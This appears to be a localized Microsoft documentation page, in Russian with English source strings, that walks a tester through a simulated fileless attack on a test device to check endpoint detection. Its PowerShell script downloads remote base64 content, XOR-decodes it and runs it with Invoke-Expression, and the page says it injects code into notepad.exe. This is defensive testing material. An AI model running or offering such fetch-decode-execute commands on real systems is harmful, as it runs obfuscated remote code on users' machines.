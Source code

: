 1.  <span data-ttu-id="2b5a4-155">Выполните вход на тестовое устройство с помощью тестовой учетной записи пользователя.</span><span class="sxs-lookup"><span data-stu-id="2b5a4-155">Log in to the test device with the test user account.</span></span>

2.  <span data-ttu-id="2b5a4-156">Откройте окно Windows PowerShell на тестовом устройстве.</span><span class="sxs-lookup"><span data-stu-id="2b5a4-156">Open a Windows PowerShell window on the test device.</span></span>

3.  <span data-ttu-id="2b5a4-157">Скопируйте следующий сценарий моделирования:</span><span class="sxs-lookup"><span data-stu-id="2b5a4-157">Copy the following simulation script:</span></span>
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
>[!NOTE]
><span data-ttu-id="2b5a4-158">Если открыть этот документ в веб-браузере, могут возникнуть проблемы с копированием полного текста без потери определенных символов и появления лишних разрывов строк.</span><span class="sxs-lookup"><span data-stu-id="2b5a4-158">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="2b5a4-159">Скачайте этот документ и откройте его в Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="2b5a4-159">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="2b5a4-160">В командной строки вставьте и запустите скопированный сценарий.</span><span class="sxs-lookup"><span data-stu-id="2b5a4-160">At the prompt, paste and run the copied script.</span></span>

>[!NOTE]
><span data-ttu-id="2b5a4-161">Если вы используете PowerShell с помощью протокола удаленного рабочего стола (RDP), используйте команду введите текст буфера обмена в клиенте RDP, так как сочетание клавиш **CTRL-V** или щелчок правой кнопкой мыши и вставки может не работать.</span><span class="sxs-lookup"><span data-stu-id="2b5a4-161">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span>  <span data-ttu-id="2b5a4-162">Последние версии PowerShell также не будут принимать этот метод, возможно, потребуется скопировать в "Блокнот" в памяти, скопировать его на виртуальную машину, а затем вставить в PowerShell.</span><span class="sxs-lookup"><span data-stu-id="2b5a4-162">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="2b5a4-163">В течение нескольких секунд после этого <i>notepad.exe</i> откроется.</span><span class="sxs-lookup"><span data-stu-id="2b5a4-163">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="2b5a4-164">Код имитации атаки будет добавлен в notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="2b5a4-164">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="2b5a4-165">Чтобы использовать весь сценарий, оставьте автоматически созданный экземпляр Notepad.</span><span class="sxs-lookup"><span data-stu-id="2b5a4-165">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>
